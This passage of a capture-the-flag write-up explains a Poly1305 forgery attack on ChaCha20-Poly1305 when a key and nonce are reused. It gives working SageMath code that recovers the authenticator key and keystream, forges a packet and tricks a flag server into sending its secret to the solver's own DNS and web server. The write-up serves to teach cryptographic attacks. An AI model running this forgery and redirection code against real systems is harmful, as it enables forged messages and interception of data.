5. The PyCryptodome library's implementation of ChaCha20-Poly1305 and Poly1305 ([here](https://github.com/Legrandin/pycryptodome/blob/master/lib/Crypto/Cipher/ChaCha20_Poly1305.py) and [here](https://github.com/Legrandin/pycryptodome/blob/master/lib/Crypto/Hash/Poly1305.py))

From Ref. 2, we can see the detailed structure of the ChaCha20-Poly1305 AEAD algorithm:


ChaCha20 is used to generate a keystream that is XORed with the plaintext to produce the ciphertext. The ciphertext (C) and the associated data (AD) are then authenticated using Poly1305 to provide an authentication tag to ensure integrity. Poly1305 takes as its input a message with the following field structure: ``AD || pad(AD) || C || pad(C) || len(AD) || len(C)``. The server code in this challenge doesn't use any AD, so in our scenario we only have ``C || pad(C) || len(AD) || len(C)``. For the forgery attack to work, we need two messages encrypted/authenticated with the same nonce/key - and we already have these from Section 4.2.2! Let's use the ciphertexts to construct the full input messages to the Poly1305 authenticator:
```python
msg1 = ct1 + b'\x00'*8 + long_to_bytes(len(ct1)) + b'\x00'*7
msg2 = ct2 + b'\x00'*8 + long_to_bytes(len(ct2)) + b'\x00'*7
assert(len(msg1) % 16 == 0)
assert(len(msg2) % 16 == 0)
assert(len(msg1) == len(msg2))
assert(len(msg1) == 64)
```

Now, with the messages ``msg1, msg2`` and tags ``tag1, tag2``, how can we recover the secret 32-byte Poly1305 key ``(r,s)``? From [this section of the Wikipedia page on Poly1305](https://en.wikipedia.org/wiki/Poly1305#Use_as_a_one-time_authenticator) (Ref. 1 above) and also the crypto stack exchange answer (Ref. 4 above), we learn that reuse of the same ``(r,s)`` for ``msg1 != msg2`` gives us
```math
tag_1 = (Poly1305_r(msg_1) + s) \quad mod \quad 2^{128} \;\;\;\;\;\; (1)
```
```math
tag_2 = (Poly1305_r(msg_2) + s) \quad mod \quad 2^{128} \;\;\;\;\;\; (2)
```
Subtracting the two:
```math
tag_1 - tag_2 \equiv Poly1305_r(msg_1) - Poly1305_r(msg_2) \;\; (mod \;\; 2^{128})
```
```math
tag_1 - tag_2 \equiv ((c_1^1r^q + c_1^2r^{q-1} + \cdots + c_1^qr^1) \;\; (mod \;\; 2^{130}) - 5) \;\; mod \;\; 2^{128}
```
```math
- ((c_2^1r^q + c_2^2r^{q-1} + \cdots + c_2^qr^1) \;\; (mod \;\; 2^{130}) - 5) \;\; mod \;\; 2^{128}
```
Which can be rewritten as:
```math
tag_1 - tag_2 + 2^{128}k = (((c_1^1 - c_2^1)r^q + (c_1^2 - c_2^2)r^{q-1} + \cdots + (c_1^q - c_2^q)r^1) \;\; (mod \;\; 2^{130}) - 5)
```
for $k \in {-4,...,4}$. This gives us 9 polynomials (for the 9 possible ``k`` values) whose coefficients are known, and we know that the correct value of ``r`` is a zero for one of them. For any candidate ``r`` value we can directly compute the associated ``s`` value using equation (1) above. Thus, we will have a small list of possible ``(r,s)`` keys to forge a new message with; experimentally, for our case the number of pairs was only ever between 1-3. Therefore, with high probability the forgery will succeed if we take a random ``(r,s)`` from the candidate list. With any ``(r,s)`` pair, we can directly compute the Poly1305 authentication tag ``tag3`` for an arbitrary message of our choosing ``msg3`` by manually evaluating the Poly1305 polynomial as described [here](https://en.wikipedia.org/wiki/Poly1305#Definition_of_Poly1305) (Ref. 1).

These steps are shown in the following sagemath code:
```python
#############################################################
###  Poly1305 Message Forgery Attack - Key & Nonce Reuse  ###
#############################################################

# The output from ChaCha20-Poly1305 is the ciphertext (ChaCha20) and the tag (Poly1305)
# To execute the Poly1305 forgery attack, we need the input messages fed into the Poly1305 hash function.
# These messages are a concatenation of the authenticated data (none in our case), padding, the ciphertext,
# ciphertext padding, and some length fields.
# https://datatracker.ietf.org/doc/html/rfc7539#section-2.8 
msg1 = ct1 + b'\x00'*8 + long_to_bytes(len(ct1)) + b'\x00'*7
msg2 = ct2 + b'\x00'*8 + long_to_bytes(len(ct2)) + b'\x00'*7
assert(len(msg1) % 16 == 0)
assert(len(msg2) % 16 == 0)
assert(len(msg1) == len(msg2))
assert(len(msg1) == 64)

# Define the Poly1305 parameters for our problem
# https://en.wikipedia.org/wiki/Poly1305
p = 2**130 - 5
L = len(msg1)
q = L // 16
assert(q == 4)

# Break the messages into consecutive 16-byte chunks
# (Step 2 of Wikipedia page)
m1_chunks = [msg1[i*16:i*16+16] + b'\x01' for i in range(q)]
m2_chunks = [msg2[i*16:i*16+16] + b'\x01' for i in range(q)]

# Interpret the 16-byte chunks as 17-byte little-endian integers by appending a 1 byte to every 16-byte chunk, to be used as coefficients of a polynomial.
# (Step 3 of Wikipedia page)
coeffs_1 = []
coeffs_2 = []
for i in range(q):
	k = 0
	c_i_1 = 0
	c_i_2 = 0
	for j in range(0, 128+1, 8):
		c_i_1 += m1_chunks[i][k] * 2**j
		c_i_2 += m2_chunks[i][k] * 2**j
		k += 1
	coeffs_1.append(c_i_1)
	coeffs_2.append(c_i_2)

# Interpret the tags (bytes) as little-endian integers
a1 = int.from_bytes(tag1, 'little')
a2 = int.from_bytes(tag2, 'little')

# Define the Finite Field over p = 2^130 - 5 and create the 2 polynomials for the chosen pair messages encrypted/authenticated with the same key (r,s)
# https://en.wikipedia.org/wiki/Poly1305#Security
# https://crypto.stackexchange.com/questions/83629/forgery-attack-on-poly1305-when-the-key-and-nonce-reused
R.<r> = GF(p)[]
poly1305_1 = sum([coeffs_1[i] * r**(q-i) for i in range(q)]) 
poly1305_2 = sum([coeffs_2[i] * r**(q-i) for i in range(q)])

# Find the roots of all 9 possible polynomials and gather the list of potential r values
valid_roots = []
for k in (-4, -3, -2, -1, 0, 1, 2, 3, 4):
	f = poly1305_1 - poly1305_2 - (a1 - a2 + k*2**128)
	roots = f.roots()
	for root in roots:
		if root[0] <= 2**128:
			valid_roots.append(root[0])
print('valid_roots', valid_roots)

# Find the associated s values for the candidate r values
r_values = []
s_values = []
for r in valid_roots:
	r = Integer(r)
	poly1305_1 = sum([coeffs_1[i] * r**(q-i) for i in range(q)]) % p
	poly1305_2 = sum([coeffs_2[i] * r**(q-i) for i in range(q)]) % p
	s1 = (a1 - poly1305_1) % int(2**128)
	s2 = (a2 - poly1305_2) % int(2**128)
	if s1 == s2:
		r_values.append(r)
		s_values.append(s1)
print('r_values', r_values)
print('s_values', s_values)


#######################
### Message Forgery ###
#######################

# Now attempt to forge a new message using candidate (r,s) pairs

# Since both the nonce and key are reused, and we know both the plaintext
# and ciphertext, we can directly recover the keystream via XOR and use this
# to encrypt arbitrary messages
key1 = byte_xor(pkt1, ct1)
key2 = byte_xor(pkt2, ct2)
assert(key1 == key2)
assert(len(key1) == 48)
key = key1

# Encrypt a 3rd adversarial message packet
pkt3 = bytearray(
	bytes([int(x) for x in ip_dot_3.split(".")]) +
	bytes([int(x) for x in gateway_ip.split(".")]) +
	bytes([255, 255, 255, 0]) +
	bytes([int(x) for x in own_ip_address.split(".")]) +
	bytes([int(x) for x in own_ip_address.split(".")]) +
	b'\x00'*12 +
	b'\x02'*15 +
	b"\x00"
)
assert(len(pkt3) == 48)
ct3 = byte_xor(pkt3, key)
nonce3 = nonce2
print(f'ct3 = {ct3.hex()}')
print(f'nonce3 = {nonce3.hex()}')

# https://datatracker.ietf.org/doc/html/rfc7539#section-2.8 
msg3 = ct3 + b'\x00'*8 + long_to_bytes(len(ct3)) + b'\x00'*7
assert(len(msg3) % 16 == 0)
assert(len(msg3) == 64)

# Define the Poly1305 parameters for our problem
# https://en.wikipedia.org/wiki/Poly1305
p = 2**130 - 5
L = len(msg3)
q = L // 16
assert(q == 4)

# Break the message into consecutive 16-byte chunks
# (Step 2 of Wikipedia page)
m3_chunks = [msg3[i*16:i*16+16] + b'\x01' for i in range(q)]

# Interpret the 16-byte chunks as 17-byte little-endian integers by appending a 1 byte to every 16-byte chunk, to be used as coefficients of a polynomial.
# (Step 3 of Wikipedia page)
coeffs_3 = []
for i in range(q):
	k = 0
	c_i_3 = 0
	for j in range(0, 128+1, 8):
		c_i_3 += m3_chunks[i][k] * 2**j
		k += 1
	coeffs_3.append(c_i_3)

# Try all candidate (r,s) pairs
for i in range(len(r_values)):
	
	r = r_values[i]
	s = s_values[i]
	print(f'i = {i}')
	print(f'--> r = {r}')
	print(f'--> s = {s}')
	
	# Create forged authentication tag by directly evaluating the Poly1305 polynomial on msg3 using (r,s)
	# by following the steps described here: https://en.wikipedia.org/wiki/Poly1305#Definition_of_Poly1305
	poly1305_3 = sum([coeffs_3[i] * r**(q-i) for i in range(q)]) % p
	a3 = (poly1305_3 + s) % 2**128
	tag3 = int(a3).to_bytes(16, byteorder='little')
	crc3 = calc_crc(pkt3)
	pkt3 = ct3 + tag3 + nonce3 
	# Attempt to send this packet to the FlagServer for decryption:
	message_to_flag_server = bytearray(
		dhcp_server_mac + # src mac
		flag_server_mac + # dst mac
		b'\x02' +
		pkt3 +
		crc3
	)
	send_message_to_flag_server(message_to_flag_server)
```

#### 5. Send an other request to the **FlagServer** - this time using the `0x03`-byte message type - to make the **FlagServer** send the flag to, what they think is, `example.com`, i.e. us.

```python
	# Tell the FlagServer to send the flag:
	print('Make FlagServer transmit the flag to (- what they think is -) http://example.com/{flag}')
	message_to_flag_server = bytearray(
		dhcp_server_mac + # src mac
		flag_server_mac + # dst mac
		b'\x03'
	)
	send_message_to_flag_server(message_to_flag_server)

conn.close()
```

#### 6. Receive the flag.

After sending the previous request to the **FlagServer**, we'll receive an incoming request to our **DNS server**:
```bash
└─$ python Server.py        
DNS Listening on 192.168.178.79:53 ...
Request from ('44.203.85.176', 57501) for example.com
```

Right after that, we'll notice an incoming request to our **web server**:
```bash
└─$ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
44.203.85.176 - - [15/Apr/2024 01:15:58] code 404, message File not found
44.203.85.176 - - [15/Apr/2024 01:15:58] "GET /PCTF%7Bd0nt_r3u5e_th3_n0nc3_d4839ed727736624%7D HTTP/1.1" 404 -
```

Of course, we won't know the flag in advance, so we couldn't setup a file named like the flag; thus the **web server** will clearly respond with a **404** when being asked for the specified ressource, but we can still extract the name of the requested ressource and url-decode it to receive the flag:
```python
from urllib.parse import unquote
print(unquote('PCTF%7Bd0nt_r3u5e_th3_n0nc3_d4839ed727736624%7D'))
```

And finally, there we go: `PCTF{d0nt_r3u5e_th3_n0nc3_d4839ed727736624}`

## Resources
### Networking related
- [Wikipedia: DHCP - Dynamic Host Configuration Protocol](https://en.wikipedia.org/wiki/Dynamic_Host_Configuration_Protocol)
- [Wikipedia: DNS - Domain Name System](https://en.wikipedia.org/wiki/Domain_Name_System)
- [Wikipedia: IP address](https://en.wikipedia.org/wiki/IP_address)
- [Wikipedia: MAC address](https://en.wikipedia.org/wiki/MAC_address)

### Crypto related
- [Wikipedia: SHA256](https://en.wikipedia.org/wiki/SHA-2)
- [Wikipedia: ChaCha20-Poly1305](https://en.wikipedia.org/wiki/ChaCha20-Poly1305)
- [Wikipedia: Poly1305](https://en.wikipedia.org/wiki/Poly1305)
- [Wikipedia: MAC - Message authentication code](https://en.wikipedia.org/wiki/Message_authentication_code)
- [RFC 7539: ChaCha20 and Poly1305 for IETF Protocols](https://datatracker.ietf.org/doc/html/rfc7539#section-2.8)
- [Forgery attack on Poly1305 when the key and nonce reused](https://crypto.stackexchange.com/questions/83629/forgery-attack-on-poly1305-when-the-key-and-nonce-reused)
- [PyCryptodome ChaCha20_Poly1305.py](https://github.com/Legrandin/pycryptodome/blob/master/lib/Crypto/Cipher/ChaCha20_Poly1305.py)
- [PyCryptodome Poly1305.py](https://github.com/Legrandin/pycryptodome/blob/master/lib/Crypto/Hash/Poly1305.py)
